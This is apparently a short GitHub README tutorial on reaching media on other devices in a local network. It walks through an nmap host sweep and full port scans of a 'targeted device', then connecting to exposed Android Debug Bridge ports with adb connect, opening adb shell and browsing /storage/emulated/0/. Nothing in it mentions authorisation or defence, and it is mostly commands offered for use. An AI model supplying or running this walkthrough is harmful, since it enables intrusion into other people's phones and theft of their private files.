# Access any media form the devices that is connected within your network

## Step 1
 * Install Nmap into your system 👉 [Nmap](https://nmap.org/)
 * Check that Nmap is installed in your system by running the command in powershell
 ```bash
 nmap --version

```
 ## Step 2
 * Search the devices that is connected in that network by running this command
 ```bash
  nmap -sn 192.168.1.0/24
  ```
 * You will see the list of devices with the mac and ip address along with the manufacturer company name

 ## Step 3 
 * Now this step is important 
 ```bash
 nmap -p- 192.168.1.0/24
 ```
 * The above command is a bit time taking cause it is going to list all the open port of that devices which is connected to that network i'm not recomend you to do this *instead* Target the divece by their ip address to see the open port of that device so to do that run this command
 ```bash
 nmap -p- <device-ip-address>
 ```
 ## Step 4
 * Once you get the open port number of that device along with ip Now it's time to connect with it by this command
 ```bash
adb connect <ip-address>:<port>
```
* ✔ Congratulations if connected now it's time to swim in the targeted device by this command
```bash
adb shell
```
* Run this command to change the current directory 
```bash
cd /storage/emulated/0/
```
* Now list the folders by `ls` 
